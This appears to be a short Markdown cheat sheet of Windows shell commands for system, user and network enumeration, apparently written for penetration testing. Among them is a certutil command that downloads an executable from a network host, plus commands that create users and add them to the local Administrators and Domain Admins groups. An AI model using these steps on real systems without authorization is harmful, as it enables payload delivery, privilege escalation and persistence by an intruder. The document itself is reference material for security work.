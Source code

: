 # WINDOWS SHELL

## Searching for files

### Looking for a file

	dir flag /s /b

### Download a file with certutil

	certutil -urlcache -f http://10.11.11.30/Message.exe Message.exe

## Scheduled tasks

	schtasks
	tasklist

## System

	systeminfo
	systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

	wmic qfe get Caption,Description,HotFixID,InstalledOn

	driverquery

	netstat -anob

### Find windows version

	type C:\Windows\System32\license.rtf

	OR

	type C:\Windows\System32\eula.txt


## Users and groups

	net users %username%
	net users

	net localgroup
	net localgroup Administrators

	whoami /all
	whoami /priv

### Create user

- Basic syntax

		net user name password /add
		net user michael welcome123 /add

- Change user password

		net user /domain michael Ghost123

- Add user to local group

		net localgroup administrators michael /add

- Add user to Domain group

	net group groupName userName /ADD /DOMAIN
	net group "Domain Admins" testuser /ADD /DOMAIN

## Network and shares
https://www.howtogeek.com/118452/how-to-map-network-drives-from-the-command-prompt-in-windows/

	net share
	netstat -ano

	net use s: \\tower\movies /user:HTG CrazyFourHorseMen
	net use s: \\tower\movies /user:HTG CrazyFourHorseMen /persistent:Yes
	net use s: /delete

### List current smb session

	net session
